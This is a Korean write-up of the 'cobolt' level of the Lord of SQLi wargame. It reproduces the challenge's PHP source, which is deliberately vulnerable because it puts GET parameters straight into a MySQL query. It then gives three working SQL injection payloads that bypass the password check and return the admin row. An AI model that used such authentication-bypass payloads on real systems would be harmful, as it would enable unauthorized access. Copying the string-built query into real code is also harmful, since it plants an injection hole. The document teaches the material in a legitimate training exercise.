

# Cobolt Problem



### hint

admin 유저가나오게 참을 만들어야된다.


### los rubiya problem Script
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

### 핵심

```php
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
if($result['id'] == 'admin') solve("cobolt");
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
```

쿼리를 참으로 만들어도 id 가 admin 아니라면 solve 함수가아니라 Hello... 가 출력이 되므로

admin이 나오도록 참을 만들어서 solve 가 실행되게 해야된다.

<details>
<summary>Payload</summary>
<div markdown="1">

```sql
?id=admin%27%20or%201=2%23%27
> select id from prob_cobolt where id='admin' or 1=2#'' and pw=md5('')

?id=&pw=%27)%20or%20id=(%27admin
> select id from prob_cobolt where id='' and pw=md5('') or id=('admin')

?id=admin%27%23
> select id from prob_cobolt where id='admin'#' and pw=md5('')
```

이처럼 '참' 으로 만들어야되는게 핵심이지만 쿼리에서 출력되는 id 가 admin 이여야되도록 만든것이다.

</div>
</details>